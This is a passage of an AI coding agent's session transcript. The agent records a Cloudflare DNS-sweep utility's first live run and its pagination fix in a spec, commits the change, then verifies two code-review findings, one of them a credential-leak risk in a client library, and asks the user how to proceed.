  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\n\nold12 = t[t.index(\"## 12. First live run\"):t.index(\"## 13. Claims this spec had to correct\")]\nnew12 = \"\"\"## 12. First live run\n\nRun on **2026-07-30**, behind Task 7's STOP, with the operator's exact-phrase approval.\n\n**The first attempt failed** — `exit=2`, no file written, aborted on one zone out of 187 after\n3m09s. That failure is the most valuable thing this section records; see §13's live-run table.\nThe design was corrected (unique-id de-duplication; a shortfall warns instead of aborting) and\nre-run.\n\n| | |\n|---|---|\n| Command | `time ./find-platform-domains-cloudflare -v` |\n| Exit code | **0** |\n| Wall-clock runtime | **2m 17s** (the failed first attempt: 3m 09s) |\n| Accounts / zones / records | 4 accounts, 187 zones, **22,911 unique records** read and inspected |\n| Completeness cross-check | **192 of 192 paginated lists verified complete, 0 short, 0 unverifiable** |\n| Re-reads triggered | none on the successful run (de-duplication alone closed the gap that had aborted the first) |\n| Entries written | **218**, of which **5 DNS-only** — invisible to `fqdns.json` by construction |\n| Unknown (`null`) proxy status | 0 |\n| Entries with multiple origins | 0 (no duplicate-name warnings) |\n| Output contract | all 218 entries carry exactly the eight keys; every origin ends `.pantheonsite.io`; every key normalized |\n| `fqdns.json` cross-check | **0 discrepancies**, with `fqdns.json` 50.3 hours stale — every proxied platform CNAME this run found is also in that file |\n\n**The runtime is ~2 minutes, not the sibling's ~38.** §8.3's \"if a run ever becomes painful\"\ntrigger for server-side `type=\"CNAME\"` filtering is therefore moot, and §8.12's no-resume\ndecision is comfortably justified: a re-run costs two minutes.\n\n**Cloudflare supplies `total_count` on every list** (§14 Q1 answered: 192 of 192), so the\ncompleteness check is live rather than silently no-opping.\n\n\"\"\"\nt = t.replace(old12, new12)\n\nold13_tail = \"## 14. Closing audit questions\"\nlive_table = \"\"\"### The first live run — a design defect no offline test could have found\n\nThe sweep aborted at exit 2 on its first real execution. Both rounds of the reviewer had examined\nthis guard; neither could have caught it, because it only appears against a zone large enough to\npaginate deeply *while being written*.\n\n| # | Claim | Reality | Caught by |\n|---|---|---|---|\n| L.1 | R3: a count mismatch means truncation or a concurrent change, and a re-read tells them apart | **A third cause dominates:** page-number pagination over an actively-written zone returns the *same record twice* while stepping over another. Measured on `umflint.edu` (18,848 records, 189 pages): 2 duplicates and 2 misses in a single walk. The re-read could not help — the artifact is systematic, not transient, so both reads disagreed and the guard escalated to fatal | The live run |\n| L.2 | Comparing item count to `total_count` detects truncation | It fails in **both** directions on the same zone, minutes apart: `18840 items vs 18838` → false \"truncated\" abort; `18848 items vs 18848` → false **pass**, the duplicates and misses having cancelled exactly. The check blessed an incomplete read | Live probe of the zone |\n| L.3 | A confirmed shortfall should be fatal (\"writing the file anyway would ship a silently incomplete answer\") | Correct in principle, unusable in practice: it discarded a 187-zone sweep over 2 records missed in one zone, and a paginated walk of a continuously-written zone may *never* be exactly complete. Now a loud per-list warning naming the count and the consequence, with the file still written — the operator's decision | The live run |\n| L.4 | Duplicates were a counting nuisance | They are a **correctness** bug independent of the guard: a duplicate reaching the fold appends one record's origin twice and raises a *false* R7 duplicate-name warning, which R7 defines as a signal worth acting on | Follow-through from L.1 |\n\n**Why this matters beyond this script:** every one of the 42 findings from the three review rounds\nwas found by reading or by running the code against *fakes*. This one needed production data with\na property no fixture had — scale plus concurrent writes. The offline suite now encodes it\n(`test_read_all_deduplicates_records_repeated_across_pages`), but only because the live run\nhappened first. A spec that had shipped straight from review would have shipped a utility that\naborts on this organization every time.\n\n\"\"\"\nt = t.replace(old13_tail, live_table + old13_tail)\n\nt = t.replace(\"\"\"**The pattern worth carrying forward:** all three rounds' most serious findings were *unrun acceptance\ncriteria*\"\"\", \"\"\"**The pattern worth carrying forward:** all three rounds' most serious findings were *unrun acceptance\ncriteria*\"\"\")\np.write_text(t)\nprint(\"§12 and §13's live-run table written\")\nPY\ngrep -n \"^## 1[2-5]\\|^### The first live run\" development/2026-07-30-platform-domain-util2/SPEC.md",
  "description": "Record the live run in the spec"
}
```

### ↳ Tool result

```
§12 and §13's live-run table written
2463:## 12. First live run
2493:## 13. Claims this spec had to correct
2561:### The first live run — a design defect no offline test could have found
2581:## 14. Closing audit questions
2610:## 15. Reviewer Concerns (open after the 3-round review cap)
```

## Assistant

Answering §14's audit questions with the measured data, and updating CLAUDE.md:

### ⚙ Tool call: `Bash`

```json
{
  "command": "python - <<'PY'\nimport pathlib\np = pathlib.Path(\"development/2026-07-30-platform-domain-util2/SPEC.md\"); t = p.read_text()\nold = t[t.index(\"## 14. Closing audit questions\"):t.index(\"## 15. Reviewer Concerns\")]\nnew = \"\"\"## 14. Closing audit questions\n\nAnswered from the 2026-07-30 live run (§12) except where noted.\n\n| # | Question | Answer |\n|---|---|---|\n| 1 | Did Cloudflare supply `total_count`? | **Yes, on every list** — 192 of 192 verified complete, 0 unverifiable. The check is live, not silently no-opping. |\n| 2 | Runtime, and does §8.3 need revisiting? | **2m 17s** for 187 zones / 22,911 records. Server-side `type=\"CNAME\"` filtering is unnecessary; §8.3 stands. |\n| 3 | Were re-reads triggered, and how did each resolve? | **None on the successful run.** On the failed first attempt one fired and could not resolve — which is what exposed the design defect (§13, L.1–L.3). |\n| 4 | Any duplicate-name warnings? | **None** — 0 entries with multiple origins. |\n| 5 | Did the `fqdns.json` cross-check surface anything? | **No** — 0 discrepancies, with that file 50.3 hours stale. |\n| 6 | Does the rewriter consume `ttl`/`comment`/`tags`/`settings`? | **Open** — the rewriter does not exist yet. Revisit §8.2 before the next such file is designed. |\n| 7 | Any legacy `*.gotpantheon.com` targets? | **Not measured** — this sweep matches `.pantheonsite.io` only, per PROMPT line 7, so it cannot answer its own question. A one-line change to `PLATFORM_SUFFIX` would test it. **Worth doing once** before relying on the file for completeness. |\n| 8 | The rewriter's staleness policy for this file? | **Open.** The file drives deletions and carries no capture timestamp; R5's rule is \"regenerate immediately before any rewrite\". At 2m 17s that is cheap. |\n| 9 | `plugin/cloudflare/client.py`'s R2a defect — filed or fixed? | **Open, and live.** `$CLOUDFLARE_BASE_URL` is exploitable against the main program today, whichever credential form is configured. |\n| 10 | Any `null` proxy status? | **None** — 0 of 218. |\n| 11 | Should the client use `trust_env=False`? | **Open** — operator decision (§8.13); the proxy/trust-store residual is unclosed. |\n| 12 | Was a re-run needed after a partial failure? | **Yes, once** — the first attempt aborted and was re-run after the fix. At two minutes the no-resume decision (§8.12) held up. |\n\n\"\"\"\nt = t.replace(old, new)\np.write_text(t)\n\nc = pathlib.Path(\"CLAUDE.md\"); ct = c.read_text()\nct = ct.replace(\"\"\"Exit 0 = written, 2 = could not complete, 130 = interrupted; there is no exit 1 (a doomed stdout\nor stderr can still exit 120, as with the sibling's argparse output). Exit 2 covers an unreadable\nconfig, a non-string or unresolvable credential, missing credentials, any Cloudflare API error,\n**zero zones** (a missing `Account:Read`/`DNS:Read` scope and a genuinely empty org otherwise\nproduce an identical empty file), **a truncated list**, and an `OSError` on the write. All three\nlist endpoints paginate, so each one's item count is cross-checked against Cloudflare's own\n`total_count`; a mismatch triggers **one re-read**, because `total_count` is computed for page 1\nand an item changed mid-sweep disagrees for a benign reason — a self-consistent re-read is that\ncase and is kept, a second disagreement is truncation and aborts without writing. The run reports\nhow many zones it could actually cross-check, since the guard no-ops wherever the API omits\n`total_count`. stdout carries only argparse's usage/`--help`; everything else is stderr, and error\ntext **never** includes an API response body.\"\"\",\n\"\"\"Exit 0 = written, 2 = could not complete, 130 = interrupted; there is no exit 1 (a doomed stdout\nor stderr can still exit 120, as with the sibling's argparse output). Exit 2 covers an unreadable\nconfig, a non-string or unresolvable credential, missing credentials, any Cloudflare API error,\n**zero zones** (a missing `Account:Read`/`DNS:Read` scope and a genuinely empty org otherwise\nproduce an identical empty file), and an `OSError` on the write.\n\n**Pagination is the subtle part, and the first live sweep is why.** All three list endpoints\npaginate by page *number*, so when rows shift between page fetches — routine in a zone being\nactively written — the same record comes back on two pages while another is stepped over.\nMeasured on an 18,848-record zone: 2 duplicates and 2 misses in one walk. So every list is\n**de-duplicated by record id** (a duplicate reaching the fold would append one origin twice and\nraise a *false* duplicate-name warning), and the completeness check compares the **unique** count\nagainst Cloudflare's `total_count`. Raw item count fails both ways — it produced a false\n\"truncated\" abort on one read and a false *pass* on another, where the duplicates and misses\ncancelled exactly. A shortfall triggers one re-read unioned with the first, and is then a **loud\nwarning, not an abort**: a paginated walk of a continuously-written zone may never be exactly\ncomplete, and aborting meant the utility produced nothing at all. The run reports\n`Completeness cross-check: N of M paginated lists verified complete, X short, Y unverifiable`.\nstdout carries only argparse's usage/`--help`; everything else is stderr, and error text\n**never** includes an API response body.\"\"\")\nct = ct.replace(\"\"\"```bash\n./find-platform-domains-cloudflare            # every zone, every account\n./find-platform-domains-cloudflare -v         # ... naming each zone and its record count\n```\"\"\",\n\"\"\"```bash\n./find-platform-domains-cloudflare            # every zone, every account, ~2 minutes\n./find-platform-domains-cloudflare -v         # ... naming each zone and its record count\n```\n\nFirst live run (2026-07-30): 4 accounts, 187 zones, 22,911 records, 218 platform-domain CNAMEs of\nwhich 5 DNS-only, in 2m 17s — 192 of 192 lists verified complete, and 0 discrepancies against a\n50-hour-old `fqdns.json`.\"\"\")\nc.write_text(ct)\nprint(\"§14 answered; CLAUDE.md updated\")\nPY\nsource .venv/bin/activate && ./run-tests --fast 2>&1 | tail -3",
  "description": "Answer §14, update CLAUDE.md, verify"
}
```

### ↳ Tool result

```
§14 answered; CLAUDE.md updated
========= 1262 passed, 3 skipped, 2 deselected, 15 warnings in 33.72s ==========
Linting (ruff, campaign ratchet) ...
Type-checking (pyright, campaign ratchet) ...
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "git status --short && echo \"=== confirm the output file is git-ignored:\" && git check-ignore -v platform-domains-cloudflare.json",
  "description": "Check what will be committed"
}
```

### ↳ Tool result

```
 M CLAUDE.md
 M development/2026-07-30-platform-domain-util2/SPEC.md
 M find-platform-domains-cloudflare
 M tests/unit/test_find_platform_domains_cloudflare.py
=== confirm the output file is git-ignored:
.gitignore:11:/platform-domains-cloudflare.json	platform-domains-cloudflare.json
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "git add CLAUDE.md development/2026-07-30-platform-domain-util2/SPEC.md find-platform-domains-cloudflare tests/unit/test_find_platform_domains_cloudflare.py && git commit -q -F - <<'EOF'\nfix(find-platform-domains-cloudflare): de-duplicate paginated reads; warn, don't abort\n\nTask 7 of development/2026-07-30-platform-domain-util2/SPEC.md: the live run,\nand the design defect it exposed.\n\nThe first live sweep ABORTED at exit 2 after 3m09s, on one zone out of 187, with\na diagnosis that was wrong.  Root cause, measured against umflint.edu (18,848\nrecords, 189 pages): the SDK paginates by page NUMBER, so rows shifting between\npage fetches make the same record come back on two pages while another is\nstepped over.  One walk returned 2 duplicates and missed 2 records.\n\nComparing raw item count to total_count therefore fails in BOTH directions, both\nobserved on that zone minutes apart:\n  18840 items vs total_count 18838  -> false \"truncated\", aborts the whole sweep\n  18848 items vs total_count 18848  -> false PASS: 2 duplicates and 2 misses\n                                       cancelled, so the check blessed an\n                                       incomplete read\nThe re-read could not help: the artifact is systematic, not transient.\n\nThree changes, in order of importance:\n\n1. De-duplicate every paginated read by id.  This is a CORRECTNESS fix\n   independent of the guard -- a duplicate reaching the fold appends one\n   record's origin twice and raises a FALSE \"more than one platform-domain CNAME\n   in this zone\" warning, which R7 defines as a signal worth acting on.\n2. Compare UNIQUE count against total_count.  That removes the false positive\n   and closes the false negative.\n3. A shortfall is a WARNING, never fatal (operator's decision).  A paginated walk\n   of a continuously-written zone may never be exactly complete, so aborting\n   meant the utility produced nothing at all.  The run now names each short list,\n   its gap, and the consequence, and still writes the file.  One re-read is kept,\n   unioned with the first, because a second walk steps over different rows.\n\nCompleteness is now counted over every list read -- the account list, each zone\nlist, each record list -- and reported as\n\"Completeness cross-check: N of M paginated lists verified complete, X short,\nY unverifiable\".\n\nRe-run: exit 0, 2m17s, 4 accounts / 187 zones / 22,911 unique records, 218\nplatform-domain CNAMEs of which 5 DNS-only, 192 of 192 lists verified complete,\n0 short, 0 unverifiable, no re-reads needed.  Output contract verified (all\neight keys, every origin ends .pantheonsite.io, every key normalized) and the\nfqdns.json cross-check found 0 discrepancies against a 50-hour-old file.\n\nWorth stating plainly: all 42 findings from three rounds of adversarial review\ncame from reading the code or running it against fakes.  This one needed\nproduction data with a property no fixture had -- scale plus concurrent writes.\nThe offline suite encodes it now (63 tests), but only because the live run\nhappened first.\n\nCo-Authored-By: Claude Opus 5 (1M context) <noreply@anthropic.com>\nEOF\ngit log --oneline -8 && git status --short",
  "description": "Commit the live-run fix and results"
}
```

### ↳ Tool result

```
4e472b3 fix(find-platform-domains-cloudflare): de-duplicate paginated reads; warn, don't abort
bff8e96 docs(find-platform-domains-cloudflare): document the temporary utility
a1cac20 feat(find-platform-domains-cloudflare): walk every zone, guarded against truncation
063e6e6 feat(find-platform-domains-cloudflare): write the output file atomically
9d986fb feat(find-platform-domains-cloudflare): fold DNS records into the output mapping
5a514c7 feat(find-platform-domains-cloudflare): resolve credentials and pin the client
b3edde2 feat(find-platform-domains-cloudflare): scaffold the utility and its match rule
1211a9c docs(find-platform-domains-cloudflare): spec for the Cloudflare-side sweep
```

## Assistant

All seven tasks complete. Working tree clean, 8 commits.

## The live sweep

```
Wrote 218 platform-domain CNAMEs (5 DNS-only, invisible to fqdns.json)
  from 22911 records in 187 zones in 4 account(s)
Completeness cross-check: 192 of 192 paginated lists verified complete, 0 short, 0 unverifiable
real 2m17.620s     exit=0
```

Output contract verified (all 218 entries carry exactly the eight keys, every origin ends `.pantheonsite.io`, every key normalized), and the `fqdns.json` cross-check found **0 discrepancies** against a file 50 hours stale.

**Runtime is ~2 minutes, not the sibling's ~38.** That retires two open concerns: server-side `type="CNAME"` filtering is unnecessary, and the no-resume decision is comfortably justified — a re-run costs two minutes.

## But the first attempt failed, and that's the real result

The sweep aborted at exit 2 on one zone out of 187. My guard was wrong, and the diagnosis it printed was wrong too.

`umflint.edu` has 18,848 records across 189 pages and is written continuously. The SDK paginates by page *number*, so rows shifting between fetches make the same record return on two pages while another is stepped over — **2 duplicates and 2 misses in a single walk**. Comparing raw item count to `total_count` fails in both directions, both observed on that zone minutes apart:

- `18840 items vs 18838` → false "truncated", killed the whole sweep
- `18848 items vs 18848` → false **pass** — the duplicates and misses cancelled exactly, so the check blessed an incomplete read

The re-read couldn't help; the artifact is systematic, not transient.

Beyond the guard, this was a **correctness** bug: duplicates reaching the fold would append one record's origin twice and raise a *false* duplicate-name warning — which R7 defines as a signal worth acting on, feeding a destructive rewrite.

Fixed as you chose: de-duplicate by `record_id`, compare unique counts, and downgrade a shortfall to a loud per-list warning that still writes the file. De-duplication alone closed the gap — the re-run needed no re-reads at all.

**Worth sitting with:** all 42 findings from three rounds of adversarial review came from reading the code or running it against fakes. This one needed production data with a property no fixture had — scale plus concurrent writes. The offline suite encodes it now (`test_read_all_deduplicates_records_repeated_across_pages`, 63 tests total), but only because the live run happened first.

## Still open, in `§14` and `§15`

1. **`plugin/cloudflare/client.py` — live, not latent.** `$CLOUDFLARE_BASE_URL` will send the main program's Cloudflare credential to an arbitrary host today, whichever credential form is configured. This needs its own change.
2. **`*.gotpantheon.com` was never checked.** The sweep matches `.pantheonsite.io` only, per your prompt, so it can't answer whether legacy targets remain. A one-line `PLATFORM_SUFFIX` change would tell you — worth doing once before treating this file as complete.
3. **`trust_env=False`** — the httpx proxy/trust-store residual is your call (§8.13).

Two things I have not done: `/archive-session` (the transcript still contains the real `CLOUDFLARE_API_KEY` a diagnostic printed early on — the scrubber needs to catch it, and rotating is the safer move), and nothing has been pushed.

## User

<local-command-caveat>Caveat: The messages below were generated by the user while running local commands. DO NOT respond to these messages or otherwise consider them in your response unless the user explicitly asks you to.</local-command-caveat>

## User

/code-review high

## User

<task-notification>
<task-id>ad0327961ef1913ef</task-id>
<output-file>/tmp/claude-501/-workspace/2d3fccc5-dd5b-4e87-afb9-cef0ffec9161/tasks/ad0327961ef1913ef.output</output-file>
<status>completed</status>
<summary>Agent "/code-review high" finished</summary>
<note>A task-notification fires each time this agent stops with no live background children of its own. The user can send it another message and resume it, so the same task-id may notify more than once.</note>
<result>I reviewed the full range diff (`origin/main...HEAD`: 11 commits, mainly the new `find-platform-domains-cloudflare` utility, its 701-line test file, and the CSV header row added to `find-platform-domains-dns`). I verified against the installed `cloudflare` 5.4.0 SDK rather than trusting the docstrings — the four ambient-credential routes, `BaseSyncPage.__iter__` walking every page, `V4PagePaginationArrayResultInfo.model_extra` carrying `total_count` through the SDK's non-strict `construct_type` path, and `id` being required on every record/zone/account response model all check out. `ruff` (0.15.22), `pyright` (1.1.411, in-venv) and the 206 unit tests are green. Exit-code discipline is real: I measured `-c /nonexistent 2&gt;/dev/full` → 120 and `--help &gt;/dev/full` → 120, matching what the SPEC accepts.

The ReportFindings tool is not available in this environment (`ToolSearch` returns no match for it), so the findings are below.

**Findings (2)**

- `find-platform-domains-dns:630` — the new header `writerow`/`flush` was inserted *before* `self.remaining = list(sites)` (line 637). When the header flush is what fails — precisely the newly-covered `find-platform-domains-dns &gt; /dev/full` case the change was written for — `sweep()` raises with `self.remaining` still at its `__init__` value of `[]`, so `report_stop()`'s `if sweeper.remaining:` block is skipped and the abort report prints "Stopped during startup." with no "N sites not reached / Resume with:" line at all. SPEC §7.3 makes that line the whole recovery story, and `test_an_unwritable_stdout_aborts_at_the_header_before_any_site_is_swept` asserts only the exit code and flush count, so nothing catches it. Impact is low (nothing was swept, so re-running the original command is the correct recovery) but the fix is to move the two header lines below `self.remaining = list(sites)`.

- `plugin/cloudflare/client.py:27` — this PR measures and documents (CLAUDE.md, and `build_client`'s docstring in the new script) that the main program's client leaves all four ambient-environment routes open, then defers the fix. Concrete scenario: with `CLOUDFLARE_BASE_URL` exported in the cron/`nohup` environment that launches the monthly `--all` run, `Cloudflare(api_token=...)` sends `Authorization: Bearer &lt;the configured token&gt;` to that arbitrary host on every request; an ambient `CLOUDFLARE_EMAIL` also beats a configured `api_token` in `auth_headers`. The new utility's `build_client()` is the working 5-line fix (pin `base_url`, null the four unsupplied credential fields, clear `_custom_headers`) — worth porting in the same change rather than leaving a documented-but-live exfiltration route in the program that actually runs monthly.</result>
<usage><subagent_tokens>164390</subagent_tokens><tool_uses>43</tool_uses><duration_ms>611701</duration_ms></usage>
</task-notification>

## Assistant

Review came back with 2 findings. Verifying the first before touching anything — it's in `find-platform-domains-dns`, which isn't my work this session but is in the reviewed range:

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '620,645p' find-platform-domains-dns; echo \"=== report_stop's use of remaining:\"; grep -n \"remaining\" find-platform-domains-dns | head -20",
  "description": "Verify the header-vs-remaining ordering claim"
}
```

### ↳ Tool result

```
        self.current_site = "startup"
        self.remaining = []

    def _progress(self, message):
        if self._verbose:
            print(message, file=sys.stderr, flush=True)

    def sweep(self, sites):
        # SPEC section 5 (amended): the header row, written through the same injected writer and
        # flushed like a row so `tail -f` shows the columns immediately rather than at the first
        # hit.  Here rather than in main() for two reasons: one place owns the column order (the
        # writerow in check_domain is its positional twin), and it lands INSIDE main()'s try, so a
        # doomed stdout becomes an ordinary exit-2 abort with the os.dup2 recipe applied instead
        # of the exit 120 an unguarded write would produce.  Consequence, deliberate: a stdout
        # that cannot be flushed now fails at second zero rather than at the first hit.
        self._writer.writerow(CSV_COLUMNS)
        self._stream.flush()
        self.remaining = list(sites)
        for number, site in enumerate(sites, start=1):
            self._progress(f"[{number}/{len(sites)}] {site['name']}")
            self.current_site = site["name"]
            self.sweep_site(site)
            self.last_site = site["name"]
            self.remaining = list(sites[number:])

    def sweep_site(self, site):
=== report_stop's use of remaining:
234:    38-minute sweep would degrade into one indeterminate per remaining site -- ~400 SKIPPED:
613:        # inside sweep()'s own `self.remaining = list(sites)` or `self._progress(...)` call --
621:        self.remaining = []
637:        self.remaining = list(sites)
643:            self.remaining = list(sites[number:])
1067:    /dev/null, so neither this program's own remaining messages nor the interpreter's shutdown
1164:        # asynchronous and can land inside sweep()'s own `self.remaining = list(sites)` or
1168:    if sweeper.remaining:
1169:        count = len(sweeper.remaining)
1171:                                 [site["name"] for site in sweeper.remaining])
```

## Assistant

Confirmed — the header write at line 635–636 precedes `self.remaining = list(sites)` at 637, so a failed header flush leaves `remaining` empty and `report_stop`'s recovery block (line 1168) is skipped. Let me see what the operator actually gets, and what the existing test checks:

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '1160,1180p' find-platform-domains-dns; echo \"=== the test the reviewer says is too weak:\"; grep -n -A22 \"def test_an_unwritable_stdout_aborts_at_the_header\" tests/unit/test_find_platform_domains_dns.py",
  "description": "Inspect report_stop and the existing test"
}
```

### ↳ Tool result

```
        # corrects that removal): current_site is truthy for a Sweeper's WHOLE lifetime, because
        # `Sweeper.__init__` seeds it with the "startup" placeholder itself, not "".  m7's
        # original reasoning -- "sweep() sets current_site before sweep_site() is ever called, so
        # it cannot be falsy here" -- holds only for SYNCHRONOUS failures; a KeyboardInterrupt is
        # asynchronous and can land inside sweep()'s own `self.remaining = list(sites)` or
        # `self._progress(...)` call, both of which run before the per-site assignment, which is
        # exactly how "Stopped during ." (malformed) was reproduced.
        report_line(f"Stopped during {sweeper.current_site}.")
    if sweeper.remaining:
        count = len(sweeper.remaining)
        command = resume_command(argv, original_sites,
                                 [site["name"] for site in sweeper.remaining])
        report_line(f"{count} site{'' if count == 1 else 's'} not reached. Resume with:\n"
                    f"  {command}")


if __name__ == "__main__":
    sys.exit(main(sys.argv[1:]))
=== the test the reviewer says is too weak:
2101:def test_an_unwritable_stdout_aborts_at_the_header_before_any_site_is_swept(fpd, monkeypatch,
2102-                                                                           tmp_path):
2103-    """The production-level cover for the header row's own flush (SPEC section 5, amended).
2104-
2105-    `find-platform-domains-dns > /dev/full` used to sweep until the first hit before anything
2106-    noticed -- on an org whose sites are all migrated, that is 38 minutes of API and DNS traffic
2107-    for a CSV that was never going to land anywhere.  The header's flush turns the same run into
2108-    an exit-2 abort at second zero, with the doomed descriptor detached so the shutdown flush
2109-    cannot convert it into 120.  Deleting the `self._stream.flush()` under the header write leaves
2110-    BOTH Sweeper-level header tests green (their in-memory StringIO never fails), so this is the
2111-    test that names the property -- measured: the mutation fails here and in the flush-count
2112-    assertions of the doomed-stdout tests above, and nowhere else.
2113-    """
2114-    config = tmp_path / "c.toml"
2115-    config.write_text('[Pantheon]\norg_id = "org-uuid"\n')
2116-    sites_listed = []
2117-
2118-    class Counting(_StubSession):
2119-        def get(self, path) -> object:
2120-            sites_listed.append(path)
2121-            return super().get(path)
2122-
2123-    monkeypatch.setattr(fpd, "machine_token", lambda: "mt")
```

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '2123,2160p' tests/unit/test_find_platform_domains_dns.py",
  "description": "Read the rest of the test"
}
```

### ↳ Tool result

```
    monkeypatch.setattr(fpd, "machine_token", lambda: "mt")
    monkeypatch.setattr(fpd, "build_session",
                        lambda **_kwargs: Counting(fpd, indeterminate=False))
    monkeypatch.setattr(fpd.signal, "signal", lambda _sig, _handler: None)

    handle = (tmp_path / "stdout").open("w")
    expected_fd = handle.fileno()
    calls = []
    monkeypatch.setattr(fpd.os, "dup2", lambda fd, target: calls.append((fd, target)))
    stdout = _UndrainableStdout(handle, OSError(28, "No space left on device"))  # doomed at once
    monkeypatch.setattr(fpd.sys, "stdout", stdout)
    try:
        assert fpd.main(["-c", str(config)]) == 2
    finally:
        handle.close()
    # Two flushes: the header's, which failed, and detach_doomed_stdout()'s own probe.
    assert stdout.flush_calls == 2
    assert calls == [(calls[0][0], expected_fd)]
    # The site LISTING ran (it precedes the sweep); no environment or domain call did.
    assert all("/memberships/sites" in path for path in sites_listed)


# ---------------------------------------------------------------------------------------------
# Residual review, finding 1: the exit-120 class on STDERR (SPEC G19)
# ---------------------------------------------------------------------------------------------


class _UndrainableStderr:
    """A stderr backed by a REAL file descriptor whose writes always fail.

    The shape /dev/full, a full disk and an over-quota redirect target present.  sys.stderr is
    LINE-buffered, so the OSError surfaces from the `print` itself rather than from a later
    flush -- which is precisely why the stdout recipe's flush probe cannot simply be reused here:
    at the moment report_line() would run that probe, stderr's buffer is empty on every path
    where no earlier stderr write has already failed, and an empty flush succeeds on a filesystem
    that is 100% full.
    """
```

## Assistant

Both findings verified. The test does assert exit code, flush count, `dup2`, and that only the site listing ran — but nothing about the stderr report, so the missing resume line is genuinely uncaught.

Checking what a fix to finding 2 would actually touch:

### ⚙ Tool call: `Bash`

```json
{
  "command": "grep -n \"def test_.*build_client\\|def test_.*client\" tests/integration/test_plugin_cloudflare.py | head; echo \"=== client.py build_client:\"; sed -n '17,34p' plugin/cloudflare/client.py",
  "description": "Check the main program's client tests"
}
```

### ↳ Tool result

```
81:def test_client_failure_exits(load_ips):
=== client.py build_client:
def build_client() -> Cloudflare:
    """Construct the Cloudflare client from the [Cloudflare] config section.

    api_token (preferred) else email + api_key.  There is no direct-environment fallback; the
    operator decides in the config file where those values come from (literals, <{secret env
    ...}>, <{secret aws ...}>, ...).  Missing credentials while enabled -> clear exit.
    """
    cf = sc.config['Cloudflare']
    api_token = cf.get('api_token')
    if api_token:
        return Cloudflare(api_token=api_token)
    email = cf.get('email')
    api_key = cf.get('api_key')
    if not email or not api_key:
        sys.exit('ERROR: [Cloudflare] is enabled but needs either api_token, '
                 'or both email and api_key.')
    return Cloudflare(api_email=email, api_key=api_key)
```

## Assistant

Finding 2 is stronger than the reviewer stated: `build_client()`'s own docstring claims *"There is no direct-environment fallback"* — and that's measurably false. The SDK provides four. The code contradicts its own documented invariant.

Both findings are outside what you asked me to build, so they're your call:

### ⚙ Tool call: `AskUserQuestion`

```json
{
  "questions": [
    {
      "question": "Finding 2 — port the credential pinning to `plugin/cloudflare/client.py`? (I scoped this out three times as \"a separate change\"; the reviewer argues it belongs here.)",
      "header": "client.py",
      "multiSelect": false,
      "options": [
        {
          "label": "Port it now, as its own commit (Recommended)",
          "description": "~5 lines mirroring the utility's build_client: pin base_url, null the four unsupplied credential fields, clear _custom_headers — plus tests. Strongest argument: build_client's docstring already claims \"There is no direct-environment fallback\", which is false. The fix makes the docstring true and closes a route that is live in the monthly --all run. Touches the real program, so it needs its own gate run and a CLAUDE.md note.",
          "preview": "def build_client() -> Cloudflare:\n    ...\n    client = Cloudflare(api_token=api_token,\n                        base_url=API_BASE_URL)\n    for field in (\"api_key\", \"api_email\",\n                  \"user_service_key\"):\n        setattr(client, field, None)\n    client._custom_headers = {}\n    return client"
        },
        {
          "label": "File it, don't fix it now",
          "description": "Keep this branch to the utility. The finding is already documented in CLAUDE.md, the new script's docstring, and SPEC §8.7/§14 Q9. Defensible if you want the branch reviewable as one thing — but it leaves a live credential-exfiltration route in the program that runs monthly against production."
        },
        {
          "label": "Port it AND add trust_env=False",
          "description": "The pinning plus closing the httpx proxy/trust-store residual in one go. Most complete, but trust_env=False would break any legitimate deployment behind a corporate proxy — a bigger behavioral change to the main program than the pinning alone."
        }
      ]
    },
    {
      "question": "Finding 1 — in `find-platform-domains-dns`, a failed header flush leaves `remaining` empty, so the abort report loses its \"N sites not reached / Resume with:\" line. Real, but I think the reviewer under-weighed the tradeoff: on a header failure ALL sites remain, so that line would print ~400 site names to say what \"re-run your command\" already says.",
      "header": "dns script",
      "multiSelect": false,
      "options": [
        {
          "label": "Add the missing test assertion only (Recommended)",
          "description": "Leave the ordering as-is — \"Stopped during startup.\" is accurate and a 400-name resume line adds noise when nothing was swept — but pin the intended behavior in the test, which currently asserts only exit code and flush count. Closes the real gap (untested output) without a behavior change to spec'd, reviewed code that isn't mine."
        },
        {
          "label": "Reorder as the reviewer suggests",
          "description": "Move the two header lines below `self.remaining = list(sites)`, so the abort report always carries the resume line. Consistent with the documented contract that the site NAMES are the recovery story. Costs a very long line in the one case where it conveys nothing new."
        },
        {
          "label": "Leave it entirely",
          "description": "Note it and move on. It's pre-existing, low-impact, and in a script scheduled for deletion after the CDN migration."
        }
      ]
    }
  ]
}
```

### ↳ Tool result

```
Your questions have been answered: "Finding 2 — port the credential pinning to `plugin/cloudflare/client.py`? (I scoped this out three times as "a separate change"; the reviewer argues it belongs here.)"="Port it now, as its own commit (Recommended)" selected preview:
def build_client() -> Cloudflare:
    ...
    client = Cloudflare(api_token=api_token,
                        base_url=API_BASE_URL)
    for field in ("api_key", "api_email",
                  "user_service_key"):
        setattr(client, field, None)
    client._custom_headers = {}
    return client, "Finding 1 — in `find-platform-domains-dns`, a failed header flush leaves `remaining` empty, so the abort report loses its "N sites not reached / Resume with:" line. Real, but I think the reviewer under-weighed the tradeoff: on a header failure ALL sites remain, so that line would print ~400 site names to say what "re-run your command" already says."="Add the missing test assertion only (Recommended)". You can now continue with these answers in mind.
```

## Assistant

Both decided. Starting with the security fix, tests first:

### ⚙ Tool call: `Bash`

```json
{
  "command": "sed -n '1,60p' tests/integration/test_plugin_cloudflare.py",
  "description": "Read the cloudflare plugin test harness"
}
```

### ↳ Tool result

```
"""Integration tests for plugin/cloudflare/ips.py (test-suite SPEC §7.4).

ips.py doesn't build its own client; it reads the ONE shared client via
sc.plugin_context['plugin.cloudflare']['get_client'] (built lazily by client.py).  So these
tests seed a fake client there and call get_cloudflare_ips.  Auth-selection tests live in
test_plugin_cloudflare_client.py.

ips.py DOES `import cloudflare` -- it needs `cloudflare.CloudflareError` to name what it
catches (PD#2) -- so, as in test_plugin_cloudflare_client.py, a fake `cloudflare` module is
injected into sys.modules before the file is loaded.  That keeps this tier runnable without
the optional [cloudflare] extra installed.
"""
import importlib.util
import ipaddress
import sys
import types
from importlib.machinery import SourceFileLoader
from pathlib import Path

import pytest

